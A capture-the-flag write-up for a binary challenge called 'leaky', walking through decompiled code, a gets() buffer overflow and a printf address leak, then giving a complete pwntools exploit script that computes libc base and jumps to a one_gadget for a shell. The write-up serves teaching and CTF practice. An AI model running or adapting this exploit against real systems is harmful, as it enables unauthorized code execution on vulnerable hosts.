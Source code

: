 # leaky - Pwn challenge
We can see with `$ file` that the binary is a 64-bit ELF. We go straight up in `ghidra` to analyze it.  
`main` function looks like this:
```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  vuln();
  goodbye();
  return 0;
}
```

Pretty straight forward, we head into `vuln`. 
```c
void vuln(void)

{
  int iVar1;
  char local_18 [8];
  char local_10 [8];
  
  puts("If you give me a cookie, I will give you a present :)");
  gets(local_10);
  iVar1 = strncmp(local_10,s,8);
  if (iVar1 == 0) {
    printf("Thanks a lot for the cookie <(^_^)> !! Here is a present for you: %p\n",printf);
    puts("Do you like my present??\n");
    gets(local_18);
  }
  return;
}
```
We can see a **Buffer overflow** via `gets`. Also, there is a leak if we pass the comparison and we can get the address of `printf`. 
This is very important and useful because from that we can calculate **libc_base**. 
As we can see, it compares our input that is stored in `local_10` with `s`which is the const: `a cookie`.  
After we pass that and get our leak, we calculate libc_base.  
```
libc_base = leaked_printf - libc_printf
```
Then we use `one_gadget` to get shell. In order to get shell, we need the proper libc. This is for my local machine. 
```python
#!/usr/bin/python3  
from pwn import *

ip = 'ctf.uniwa.gr' # change this
port = 2005 # change this
filename = './leaky' # change this

_libc = '/lib/x86_64-linux-gnu/libc.so.6' # change this

og = [0xcb79a, 0xcb79d, 0xcb7a0, 0xe926b] 

def pwn():
    #r = remote(ip, port)
    r = process(filename)
    e = ELF(filename)
    libc = ELF(_libc)
    
    ### Calculate the addresses ###
    printf_libc = libc.symbols['printf']
    main = p64(e.symbols['main'])
    junk = b'z'*24
    
    ### Stage 1: leaking ###
    payload = 'a cookie'
    r.sendlineafter('a present :)', payload)
    r.recvuntil(':')
    leaked = r.recvline()
    leaked = int(leaked, 16)
    log.success('Leaked printf: ' + hex(leaked))

    ### Stage 2: Calculate libc_base and offsets ###
    base = leaked - printf_libc

    ### Stage 3: craft payload and get shell ###
    payload = junk + p64(base + og[0])
    r.sendlineafter('present??', payload)
    log.success('SHELL OBTAINED SUCCESSFULLY!\n')
    r.interactive()

pwn()
```
